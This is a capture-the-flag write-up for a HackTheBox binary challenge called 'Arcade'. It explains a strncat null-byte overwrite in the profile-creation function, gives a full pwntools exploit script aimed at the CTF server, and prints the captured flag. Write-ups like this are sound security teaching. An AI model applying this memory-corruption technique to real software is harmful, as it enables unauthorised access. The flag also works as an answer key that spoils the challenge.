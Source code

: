 # Arcade

Here we have a binary for local debugging and a remote server running it. Binary is basically mock rpg game and one of its function is to give flag. The part of the binary with the flag output function is shown at the Figure 1.

![](pictures/2021-03-07-23-32-04.png)

Figure 1 – The part of disassembled binary with flag output function

But it will give flag only if temp_pass is not equal to passw[248:255]. So, we needed to overwrite it. We can do so in create_profile function because it uses strncat and nullbyte can be written exact in the end of out string if we will provide it only dashes as input. This is shown on the Figure 2.

![](pictures/2021-03-07-23-31-52.png)

Figure 2 –  The part of disassembled binary with vulnerable constructions

Final exploit looks as follow:

```Python
from pwn import *
exe = context.binary = ELF('arcade')
def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)
gdbscript = '''
continue
'''.format(**locals())
io = remote("docker.hackthebox.eu",31046)
io.recvuntil(">")
io.sendline('2')
io.recvuntil(">")
io.sendline('1')
io.recvuntil("Super-")
io.send('Super-'+'-'*7)
io.send('2')
io.recvuntil(">")
io.sendline("120")
io.recvuntil(">")
io.send('-'*120)
io.recvuntil(">")
io.sendline('1')
io.recvuntil("Super-")
io.send('Super-'+'-'*7)
io.send('2')
io.recvuntil(">")
io.sendline("120")
io.recvuntil(">")
io.send('-'*120)
io.recvuntil(">")
io.sendline('1')
io.recvuntil("Super-")
io.send('Super-'+'-'*7)
io.send('2')
io.recvuntil(">")
io.sendline("120")
io.recvuntil(">")
io.send('-'*120)
#retrieve flag manually
io.interactive()
```

The result of the exploit execution can be seen on the Figure 3.

![](pictures/2021-03-07-23-31-30.png)

Figure 3 – The result of exploit execution and flag retrieval

Flag: HTB{1ts_4_m3_fl4gioo!}.
